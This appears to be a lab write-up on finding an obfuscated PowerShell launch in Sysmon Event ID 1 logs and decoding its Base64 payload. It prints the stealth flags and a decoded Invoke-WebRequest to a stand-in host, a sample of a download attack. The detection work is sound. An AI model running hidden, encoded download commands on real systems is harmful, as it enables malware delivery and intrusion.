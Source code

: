 # Step 3: Investigating the Obfuscated PowerShell Attack

## Goal

To investigate suspicious PowerShell activity using **Sysmon logs** captured in **Event Viewer**, and identify signs of obfuscation and remote script execution.

---

## Tools Used

| Tool | Purpose |
|------|---------|
| Sysmon | Collected detailed process execution data |
| Event Viewer | Viewed raw event logs from Sysmon |
| Base64 Decoder (online/CyberChef) | Decoded the obfuscated command |



## 🔍 Where to Find the Logs

1. Open **Event Viewer**
2. Navigate to: 
    Applications and Services Logs --> Microsoft --> Windows --> Sysmon --> Operational
3. Filter for:
   - **Event ID 1** (Process Creation)


## Key Fields in Sysmon Event ID 1

| Field | Explanation |
|-------|-------------|
| `Image` | Full path to executed binary (`powershell.exe`) |
| `CommandLine` | Full command that was executed (includes `-EncodedCommand`) |
| `ParentImage` | What launched PowerShell (could be explorer.exe, cmd.exe, etc.) |
| `User` | Account that ran the command |
| `UtcTime` | Time of execution |
| `Hashes` | MD5/SHA256 hash of the binary |



## What We Observed

| Field | Value |
|-------|-------|
| Image | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| CommandLine | `-nop -w hidden -EncodedCommand SQBuAHYAbw...` |
| User | `DESKTOP-5NGOGNV\bsach` |
| ParentImage | Another PowerShell instance |
| IntegrityLevel | High |
| Time | `2025-03-24 21:18:40` |

>  **Suspicious Behavior Identified**:  
PowerShell was executed **with obfuscation flags** and a **Base64-encoded payload**, attempting a hidden `Invoke-WebRequest`.



## Decoding the Command

Used [CyberChef](https://gchq.github.io/CyberChef/) or [base64decode.org](https://www.base64decode.org/) with **UTF-16LE** encoding to decode the payload:

powershell
    Invoke-WebRequest "http://emock/downloadscript"


## Analysis Summary

PowerShell was launched in a stealthy manner:
    -nop disables profiles
    -w hidden hides the console
    -EncodedCommand hides the script
The command attempts to reach out to a remote URL -- a classic early-stage attack behavior (like downloading malware or tools).
This behavior is often used in phishing, LOLBin abuse, or hands-on-keyboard instrusions. 

## Outcome 

Successfully detected obfuscated PowerShell usage via Sysmon logging and confirmed its intent through manual decoding.
This sets the stage for centralized detection and alerting in Step 4. 

